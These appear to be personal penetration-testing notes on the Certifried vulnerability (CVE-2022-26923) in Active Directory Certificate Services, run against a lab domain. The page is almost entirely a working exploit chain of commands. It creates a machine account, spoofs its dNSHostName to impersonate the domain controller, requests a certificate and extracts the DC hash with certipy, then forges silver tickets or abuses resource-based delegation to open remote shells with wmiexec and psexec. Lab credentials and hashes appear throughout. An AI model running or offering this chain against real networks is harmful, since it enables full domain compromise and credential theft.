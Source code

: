 # Certifried

> ***Certifried (CVE-2022-26923)***

------

This vulnerability is based manipulating **certificate mapping** when creating a computer account. Certificate mapping relied on `dNSHostName` attribute of a computer account. So when a computer requested a certificate, it trusted that `dNSHostName` as its identity.

**Exploit by**

1. Clear the SPN linked to computer account
2. Modify the `dNSHostName` to impersonate other machine.
3. Request a certificate using Machine template.

### Abuse

Check if CA is patched

```sh
certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -dc-ip 10.129.228.237 -template User
```

Add computer which dnsHostName should match DCs.

```sh
addcomputer.py -computer-name 'CERTIFRIED$' -computer-pass 'Password123!' -dc-ip 10.129.228.134 'LAB.LOCAL/Blwasp':'Password123!'
```

Enumerate and check DNS names

```sh
certipy find -u 'BlWasp@lab.local' -p 'Password123!' -stdout -vulnerable
```

Edit dnsHostName with powerview

```sh
┌──(mczen㉿mczen)-[~/Dropbox/Win]
└─$ powerview lab.local/BlWasp:'Password123!'@10.129.228.237 
Logging directory is set to /home/mczen/.powerview/logs/lab-blwasp-10.129.228.237
[2025-01-31 18:51:15] [Storage] Using cache directory: /home/mczen/.powerview/storage/ldap_cache
(LDAPS)-[DC02.lab.local]-[LAB-DC\blwasp]
PV > Set-DomainObject -Identity 'CERTIFRIED$' -Set dnsHostName="dc02.lab.local"
[2025-01-31 18:51:33] [Set-DomainObject] Success! modified attribute dnshostname for CN=CERTIFRIED,CN=Computers,DC=lab,DC=local
(LDAPS)-[DC02.lab.local]-[LAB-DC\blwasp]
```

Request certificate and impersonate DC

```shell-session
certipy req -u 'CERTIFRIED$' -p 'Password123!' -dc-ip 10.129.228.134 -ca lab-LAB-DC-CA -template 'Machine'
```

Authenticate

```sh
certipy auth -pfx dc02.pfx
```

Proceed for silver ticket, get SID

```sh
nxc ldap 10.129.228.237 -u dc02$ -H cdd3cf40d6d5bee74013db1c26f58ee1 --get-sid
```

Get silver ticket

```sh
ticketer.py -nthash db35f9cf2e343f0795d33aef721a8f9a -domain-sid S-1-5-21-2810262047-4248699891-1002428937 -domain lab.local -spn cifs/dc02.lab.local Administrator
```

### Alternate Method

```shell
certipy auth -pfx dc02.pfx -dc-ip 10.129.228.237 -ldap-shell
```

In ldap shell

```sh
add_computer ESC1 E$C1
set_rbcd DC02$ ESC1$
exit
```

Request CIFS ticket

```shell
getST.py -spn cifs/dc02.lab.local -impersonate Administrator -dc-ip 10.129.228.237 'lab.local/esc1$:E$C1'
```

Then connect

```sh
# WMI
KRB5CCNAME=Administrator@cifs_dc02.lab.local@LAB.LOCAL.ccache wmiexec.py -k -no-pass dc02.lab.local  

# PSEXEC
KRB5CCNAME=Administrator@cifs_dc02.lab.local@LAB.LOCAL.ccache psexec.py -k -no-pass dc02.lab.local
```
